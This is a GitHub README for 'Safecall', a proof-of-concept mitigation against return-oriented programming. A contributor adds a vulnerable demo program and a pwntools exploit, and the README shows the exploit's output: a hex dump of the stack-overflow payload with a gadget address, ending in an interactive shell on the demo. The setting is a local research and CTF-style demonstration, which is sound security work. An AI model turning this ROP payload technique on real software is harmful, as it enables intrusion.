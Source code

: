 # Safecall -- return to abort() attacks

A small proof of concept using code introspection to make ROP exploitation
really really suck.

## Zach's Changes

I made a real Makefile and added a [pwntools](http://pwntools.com) script to exploit a sample program "protected" with this mitigation.

See [`demo.c`](demo.c) for the trivially vulnerable program, and [`win.py`](win.py) for the exploit script.

## Example

You should probably run the example on Ubuntu.

```bash
$ make
$ pip install -U pwntools
$ python win.py
[*] '/home/pwntools/ctf-solutions/return-to-abort/demo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] 0x40050b
[*] 00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  71 61 61 61  72 61 61 61  0b 05 40 00  00 00 00 00  │qaaa│raaa│··@·│····│
    00000050  75 61 61 61  76 61 61 61  77 61 61 61  78 61 61 61  │uaaa│vaaa│waaa│xaaa│
    00000060  79 61 61 61  7a 61 61 62  62 61 61 62  63 61 61 62  │yaaa│zaab│baab│caab│
    00000070  64 61 61 62  65 61 61 62  66 61 61 62  67 61 61 62  │daab│eaab│faab│gaab│
    00000080  68 61 61 62  69 61 61 62  6a 61 61 62  6b 61 61 62  │haab│iaab│jaab│kaab│
    00000090  6c 61 61 62  6d 61 61 62  20 06 40 00  00 00 00 00  │laab│maab│ ·@·│····│
    000000a0
[+] Starting local process './demo': pid 3470
[+] Have a shell!
[*] Switching to interactive mode
$ id
uid=1000(pwntools) gid=1000(pwntools) groups=1000(pwntools)
$ ls
Makefile  demo      demo.s       example      safecall.awk
core      demo.c  demo.safe.s  readme.md  win.py
$
[*] Interrupted
[*] Stopped process './demo' (pid 3470)
```
